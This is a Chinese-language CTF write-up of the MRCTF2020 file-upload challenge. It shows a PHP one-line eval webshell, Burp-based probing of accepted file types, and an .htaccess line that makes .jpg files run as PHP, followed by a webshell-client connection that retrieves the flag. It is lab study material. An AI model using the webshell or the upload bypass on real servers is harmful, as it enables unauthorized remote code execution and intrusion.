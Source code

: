 ```yaml
---
title: MRCTF2020 你传你🐎呢 1
date: 2022-07-13 22:51:42
permalink: /pages/7b6de8/
categories:
  - 网络安全
  - web安全
  - ctf学习
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

#  MRCTF2020 你传你🐎呢 1

## 题目

![image-20220713190004283](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/202207131903645.png)

### 解题思路

* 判断是否有过滤
* 过滤什么文件，能上传什么
* 上传一句话木马
* 菜刀连接获得webshell从而拿到flag

### 解题过程

直接上传一个一句话木马的php文件看行不行

代码如下

```php
<?php phpinfo();@eval($_POST['shell']);?>
```

然后出现了这个页面

![image-20220713190924730](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/202207131909812.png)

开启bp抓包，将包发送至repeater试试都能上传什么文件

![image-20220713191551646](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/202207131915832.png)

经过尝试发现png图片格式的木马文件也能上传成功。

但因为要把这个php的代码解析出来从而通过菜刀连接，接下来就尝试一下看htaccess文件能否上传成功

具体利用细节：[Apache的.htaccess利用技巧 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8267)

htaccess文件内容如下

```
AddType application/x-httpd-php .jpg
```

功能是将目录下的所有文件都解析成php

发现.htaccess文件能上传，那么接下来就简单很多了，直接用蚁剑连接后台就能拿到flag了

![image-20220713193446090](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/202207131934081.png)

![image-20220713195451747](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/202207131954592.png)